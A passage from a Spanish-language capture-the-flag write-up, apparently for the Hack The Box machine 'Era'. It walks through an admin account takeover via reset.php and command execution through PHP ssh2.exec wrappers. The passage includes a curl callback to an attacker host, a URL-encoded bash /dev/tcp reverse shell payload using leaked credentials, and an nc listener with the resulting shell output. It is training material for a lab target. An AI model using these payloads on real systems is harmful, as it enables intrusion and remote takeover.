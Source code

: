 Vamos a ver que tiene una vulnerabilidad de `Acceso a wrappers de PHP - LECTOR DE ARCHIVOS` pero para ello tendremos que ser `admin`, si recordamos antes, tenemos el usuario de `administrador` su nombre, vamos a cerrar sesion y vamos a irnos al archivo llamado `reset.php` para poder resetear a dicho usuario, en todos los campos meteremos el nombre de `admin_ef01cab31aa` estando en la misma sesion de nuestro usuario ya logueados y cuando le demos a `resetear` veremos que nos redirige a la sesion actual, cerramos sesion y vamos otra vez a `reset.php` volvemos a meter `admin_ef01cab31aa` en todos los campos y ya seremos los administradores, por lo que nos inicia sesion de forma automatica, una vez siendo administradores, podremos probar la vulnerabilidad de esta forma:

Vemos que se pueden utilizar `wrappers` como `ssh2.shell:// o ssh2.exec://`, utilizaremos en este caso el de `exec` para ejecutar un comando, nos pondremos a la escucha en un servidor de `python3` para ver si se ejecuta de forma correcta dicho comando:

```shell
python3 -m http.server 80
```

Ahora si ejecutamos esto:

```
URL = http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/curl http://<IP_ATTACKER>/
```

Se nos descargara un archivo, pero ese no nos interesa, si vamos a nuestro servidor de `python3` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.79 - - [25/Sep/2025 07:58:59] code 404, message File not found
10.10.11.79 - - [25/Sep/2025 07:58:59] "GET /files/site-backup-30-08-24.zip HTTP/1.1" 404 -
```

Vemos que se esta ejecutando bien, por lo que vamos a ejecutar una `reverse shell` de esta forma:

```
URL = http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.98/7777%200%3E%261%22+
```

Le añadiremos un `+` a lo ultimo para que separe el comando que concatena al que nosotros estamos enviando, ya que si lo enviamos sin el `+` se va a concatenar el comando `files/site-backup-30-08-24.zip` y no funcionara.

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si le damos a `ENTER` en la `URL` para que se ejecute y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.79] 55300
bash: cannot set terminal process group (26239): Inappropriate ioctl for device
bash: no job control in this shell
yuri@era:~$ whoami
whoami
yuri
```
